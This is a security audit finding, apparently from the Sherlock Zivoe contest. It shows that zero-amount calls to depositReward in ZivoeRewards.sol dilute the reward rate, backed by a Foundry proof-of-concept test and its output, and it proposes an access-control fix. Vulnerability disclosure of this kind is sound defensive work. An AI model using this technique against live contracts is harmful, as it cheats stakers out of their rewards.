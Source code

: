 Dancing Honeysuckle Weasel

high

# Malicious users can deposit zero amount of reward tokens to manipulate the reward rate, leading to the loss of rewards for other users

## Summary
Malicious users can deposit zero amount of reward tokens to manipulate the reward rate, leading to the loss of rewards for other users

## Vulnerability Detail
In `ZivoeRewards.sol`/ `ZivoeRewardsVesting.sol` contract , after `ZVL` add reward token say `DAI` , anyone can deposit reward token to contract via `depositReward`.
[https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243)

When the current reward period has not ended, the `rewardRate` for `DAI` is recalculated. Assuming malicious users deposit a negligible amount of `DAI` in the middle of the current reward period, let's say after 15 days of a total 30-day period, the `rewardRate` can be reduced to half of what it should be. This could result in other users receiving less reward than they should when they withdraw rewards after the aforementioned deposit.

add a test to file `Test_ZivoeRewards.sol`:
```shell
forge test --mt test_deposit_manipulate_rate -vv --fork-url "xxxx"
```

```solidity
    function test_deposit_manipulate_rate() public {

        uint256 deposit = 10 ether;
        
        sam.try_approveToken(address(ZVE), address(stZVE), ERC20(address(ZVE)).balanceOf(address(sam)));

        //sam deposit to stake.
        hevm.prank(address(sam));
        sam.try_stake(address(stZVE), ERC20(address(ZVE)).balanceOf(address(sam)));

        //zvl add reward to contract.
        depositReward_DAI(address(stZVE), deposit);

        hevm.warp(block.timestamp + 15 days );

        //===============Malicious users===============//
        assert(bob.try_depositReward(address(stZVE), DAI, 0));
        //===============Malicious users===============//

        hevm.warp(block.timestamp + 15 days );

        //30 days passed by sam invoke fullwithdraw
        assert(sam.try_fullWithdraw(address(stZVE)));
        console.log(IERC20(address(DAI)).balanceOf(address(sam)));
    }
```

output:
```shell
Ran 1 test for src/TESTS_Core/Test_ZivoeRewards.sol:Test_ZivoeRewards
[PASS] test_deposit_manipulate_rate() (gas: 461244)
Logs:
  7499999999999945000
```
As we can see sam should get about 10 `DAI` reward since 30-day passed by however only get 7.5 `DAI`

## Impact
loss of rewards for other users

## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewards.sol#L228-L243
```solidity
function depositReward(address _rewardsToken, uint256 reward) external updateReward(address(0)) nonReentrant {
    IERC20(_rewardsToken).safeTransferFrom(_msgSender(), address(this), reward);

    // Update vesting accounting for reward (if existing rewards being distributed, increase proportionally).
    if (block.timestamp >= rewardData[_rewardsToken].periodFinish) {
        rewardData[_rewardsToken].rewardRate = reward.div(rewardData[_rewardsToken].rewardsDuration);
    } else {
        uint256 remaining = rewardData[_rewardsToken].periodFinish.sub(block.timestamp);
        uint256 leftover = remaining.mul(rewardData[_rewardsToken].rewardRate);
        rewardData[_rewardsToken].rewardRate = reward.add(leftover).div(rewardData[_rewardsToken].rewardsDuration);
    }

    rewardData[_rewardsToken].lastUpdateTime = block.timestamp;
    rewardData[_rewardsToken].periodFinish = block.timestamp.add(rewardData[_rewardsToken].rewardsDuration);
    emit RewardDeposited(_rewardsToken, reward, _msgSender());
}
```

## Tool used
Foundry

## Recommendation
add a `msg == IZivoeGlobals_ZivoeRewards(GBL).ZVL()`/`msg == IZivoeGlobals_ZivoeRewards(GBL).YDL()`  should be the most simple way to fix it